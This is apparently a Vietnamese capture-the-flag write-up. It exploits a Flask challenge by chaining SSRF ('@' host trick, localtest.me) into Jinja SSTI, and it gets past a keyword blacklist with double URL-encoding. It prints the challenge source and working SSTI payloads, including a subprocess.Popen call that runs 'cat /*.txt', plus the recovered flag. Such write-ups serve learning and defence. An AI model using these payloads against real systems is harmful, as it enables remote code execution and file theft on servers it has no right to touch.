

Lâu lắm rồi mình mới quay lại đánh giải trên ctftime.org


whitebox nhé ae, truy cập vào thử


phải view source mới biết được cái gì đang handler


flag có tên random.txt


```
# app.py


from flask import Flask, request, Response, jsonify, redirect, url_for, render_template_string, abort
from util import is_from_localhost, proxy_req
from flask import request, abort
import random, os

app = Flask(__name__)

# I BLACKLIST EVERY CHAR :)

blacklist = ["debug", "args", "headers", "cookies", "environ", "values", "query",
    "data", "form", "os", "system", "popen", "subprocess", "globals", "locals",
    "self", "lipsum", "cycler", "joiner", "namespace", "init", "join", "decode",
    "module", "config", "builtins", "import", "application", "getitem", "read",
    "getitem", "mro", "endwith", " ", "'", '"', "_", "{{", "}}", "[", "]", "\\", "x"]

def check_forbidden_input(func):
    def wrapper(*args, **kwargs):
        for header, value in request.headers.items():
            for forbidden_str in blacklist:
                if forbidden_str in value:
                    abort(400, f"Forbidden: '{forbidden_str}' not allowed in {header} header")

        for key, value in request.args.items():
            for forbidden_str in blacklist:
                if forbidden_str in value:
                    abort(400, f"Forbidden: '{forbidden_str}' not allowed in URL parameter '{key}'")

        try:
            if request.is_json:
                json_data = request.get_json()
                if json_data:
                    for key, value in json_data.items():
                        for forbidden_str in blacklist:
                            if forbidden_str in value:
                                abort(400, f"Forbidden: '{forbidden_str}' not allowed in JSON request body key '{key}'")
            else:
                body = request.get_data(as_text=True)
                for forbidden_str in blacklist:
                    if forbidden_str in body:
                        abort(400, f"Forbidden: '{forbidden_str}' not allowed in request body")
        except Exception as e:
            pass

        # Call the original function if checks pass
        return func(*args, **kwargs)
    return wrapper

@app.route('/', methods=['GET'])
@check_forbidden_input
def proxy():
    url = request.args.get('url')

    list_endpoints = [
        '/about/',
        '/portfolio/',
    ]

    if not url:
        endpoint = random.choice(list_endpoints)
        # Construct the URL with query parameter
        return redirect(f'/?url={endpoint}')
    
    target_url = "http://daffa.info" + url

    if target_url.startswith("http://daffa.info") and any(target_url.endswith(endpoint) for endpoint in list_endpoints):
        response, headers = proxy_req(target_url)

        return Response(response.content, response.status_code, headers.items())
    else:
        abort(403)

@app.route('/secret', methods=['GET', 'POST'])
@is_from_localhost
def dev_secret():
    admin = "daffainfo"
    css_url = url_for('static', filename='css/main.css')

    if request.args.get('admin') is not None:
        admin = request.args.get('admin')

    if not admin:
        abort(403)

    template = '''<!DOCTYPE html>
        <html lang="en">
        <head>
            <meta charset="UTF-8">
            <meta name="viewport" content="width=device-width, initial-scale=1.0">
            <title>Admin Notes Preview</title>
            <link rel="stylesheet" href="{}">
        </head>
        <body>
            <h1>NOTES!! ONLY ADMIN CAN ACCESS THIS AREA!</h1>
            <form action="" method="GET">
                <label for="admin">Admin:</label>
                <input type="text" id="admin" name="admin" required>
                <br>
                <input type="submit" value="Preview!">
            </form>
            <p>Admin: {}<span id="adminName"></span></p>
        </body>
        </html>'''.format(css_url, admin)
    return render_template_string(template)

app.run(host='0.0.0.0', port=1337)
```

có thể thấy nó sử dụng 1 blacklist chứa 1 loạt các chuỗi chống ssti

tại route `/` nếu không có parameter `url` sẽ mặc định lấy random 1 trong 2 list_endpoints và xử lí code trong đoạn `if not url`, chỗ này không có gì đâu nên mình next nhé


tại route `/secret` này nhìn vào là biết dính SSTI rồi, ở dòng 102 với 103 đó, nhưng nó đã bị blacklist filter đi, quan sát tất cả attack surface mình cũng chỉ có đi exploit SSTI được thôi

Nhưng trước đó nó check xem request có đến từ localhost hay không. OKEY, `SSRF to SSTI`

### SSRF
Trước hết cần xóa các header không cần thiết đi để bypass blacklist, nó sẽ có dạng như này


Do ở route `/` dùng startswith nên nếu ta truyên vào 1 url có value khác sẽ phải dùng `@`, mình ví dụ `khiem.com@127.0.0.1:1337` thì url cuối cùng sẽ là `127.0.0.1:1337`

Cuối cùng sẽ có payload dạng như sau: 


nhưng ở `util.py`


localhost bị đấm nên cần kiếm payload thay thế, research kiếm được `www.localtest.me`, ngon luôn nhé

### SSTI
Tác giả dùng blacklist chứa khá nhiều từ cấm, nhưng lại méo quan tâm tới encode =))

Tại đây vì URL được decode 2 lần (trước và sau SSRF) nên cần phải encode 2 lần cho server hiểu

payload test: ``

sau khi encode 2 lần ta được:
`%257b%2525%2570%2572%2569%256e%2574%2528%2528%2529%252e%255f%255f%2563%256c%2561%2573%2573%255f%255f%2529%2525%257d`
và


giờ thì lấy index của class có thể exec os là được

payload lấy các class: `{{ ''.__class__.__mro__[1].__subclasses__() }}`

sau khi encode 2 lần: 
`%257b%257b%2520%2527%2527%252e%255f%255f%2563%256c%2561%2573%2573%255f%255f%252e%255f%255f%256d%2572%256f%255f%255f%255b%2531%255d%252e%255f%255f%2573%2575%2562%2563%256c%2561%2573%2573%2565%2573%255f%255f%2528%2529%2520%257d%257d%250a%250a`

và




tricklor 1 lúc mình lấy được index của class `subprocess.Popen`


oke giờ thì gọi đến và lấy flag thôi

`{{ ''.__class__.__mro__[1].__subclasses__()[351]('cat /*.txt', shell=True, stdout=-1, stderr=-1).communicate()[0].decode() }}`


FLAG: `TCP1P{Ch41n1ng_SsRF_pLu5_5St1_ba83f3ff121ba83f3ff121}`
`


